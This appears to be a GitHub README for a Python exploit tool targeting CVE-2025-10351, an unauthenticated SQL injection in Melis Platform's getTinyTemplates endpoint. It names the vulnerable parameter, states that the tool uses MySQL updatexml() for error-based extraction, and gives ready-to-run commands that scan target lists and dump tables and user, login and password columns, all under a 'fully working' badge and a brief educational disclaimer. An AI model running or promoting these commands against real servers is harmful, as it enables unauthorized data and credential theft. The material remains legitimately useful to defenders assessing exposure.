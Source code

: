 # CVE-2025-10351 - SQL Injection Exploit 🧨

> Exploit for CVE-2025-10351: An unauthenticated SQL Injection vulnerability that affects a specific endpoint in Melis Platform Framework.

![status](https://img.shields.io/badge/status-fully%20working-brightgreen)
![python](https://img.shields.io/badge/python-3.8%2B-blue)

---

## 🔗 References

- 📄 [CVE on INCIBE (Spanish National Cybersecurity Institute)](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2025-10351)
- 📄 [Melis Platform Warning on INCIBE (Spanish National Cybersecurity Institute)](https://www.incibe.es/incibe-cert/alerta-temprana/avisos/multiples-vulnerabilidades-en-melis-platform)

---

## 🚀 Description

This exploit targets an **unauthenticated error-based SQL injection** vulnerability in the endpoint:

```
melis/MelisCms/PageEdition/getTinyTemplates?idPage=
```

It leverages `updatexml()` in MySQL to extract:

- Table names
- Column names
- Data from specific or all columns

It also detects possible **time-based SQLi** vectors for further manual exploitation.

---

## 🛠️ Requirements

Install dependencies with:

```bash
pip3 install -r requirements.txt
```

---

## 🧪 Usage

### Basic check
```bash
python3 CVE-2025-10351.py -u http://target.com -p 80
```

### From URL list
```bash
python3 CVE-2025-10351.py -l targets.txt
```

### Extract all table names
```bash
python3 CVE-2025-10351.py -u http://target.com -p 80 -at
```

### Extract all column names from a table
```bash
python3 CVE-2025-10351.py -u http://target.com -p 80 -t users
```

### Extract all data from all columns
```bash
python3 CVE-2025-10351.py -u http://target.com -p 80 -t users -ac
```

### Extract specific columns
```bash
python3 CVE-2025-10351.py -u http://target.com -p 80 -t users -c user,login,password
```

### Using proxy with insecure mode, cookies and debug mode
```bash
python3 CVE-2025-10351.py -u http://target.com -p 80 -t users -c user,login,password --proxy http://127.0.0.1:8080 --insecure --cookies 2prkpe1h72nd4fhmlum65okc04 --debug
```

---

## ⚙️ Options

| Argument     | Description                             |
|--------------|-----------------------------------------|
| `-u`         | Target URL                               |
| `-p`         | Port (80, 443, etc.)                     |
| `-l`         | File containing list of URLs             |
| `-s`         | Sleep time for time-based tests (default: 1s) |
| `-at`        | Dump all table names                     |
| `-t`         | Specify table name                       |
| `-ac`        | Dump all columns of given table          |
| `-c`         | Comma-separated list of columns to dump  |
| `--proxy`         | Burp Proxy http://127.0.0.1:8080 |
| `--insecure`         | Disable TLS checks when using proxy connections |
| `--cookie`         | Cookies for auth requests  |
| `--debug`         | Debug mode |
---

## 📤 Output

- Extracted tables saved to `tables_extracted.txt`
- Extracted data saved to `<table_name>_data.txt`

---

## ⚠️ Disclaimer

This script is for educational purposes only. Use it only on systems you have explicit permission to test. The author is not responsible for any misuse or damage caused.

---

Made with ❤️ by Manuel Iván San Martín Castillo
